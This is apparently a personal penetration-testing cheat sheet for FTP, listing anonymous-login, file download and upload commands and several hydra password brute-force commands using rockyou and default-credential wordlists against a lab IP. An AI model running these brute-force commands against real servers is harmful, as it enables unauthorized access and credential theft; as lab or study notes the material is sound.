 ___
title: TestFtp
date: 2022-05-03
categories: [test,test2]
tags: [testTag]
___


### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.226.47 ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```


